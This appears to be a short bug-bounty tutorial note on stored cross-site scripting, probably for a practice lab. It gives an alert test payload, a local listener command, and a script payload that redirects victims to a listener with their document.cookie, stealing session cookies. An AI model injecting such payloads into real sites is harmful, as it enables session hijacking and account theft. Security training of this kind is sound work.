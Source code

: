 # bug-bounty-tutorial
bug bounty tutorial

## 18.XSS-store

### low in name & message
```
python3 -m http.server 3000
<script>alert("XSS");</script>
```
### change textarea size
```
<script>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```

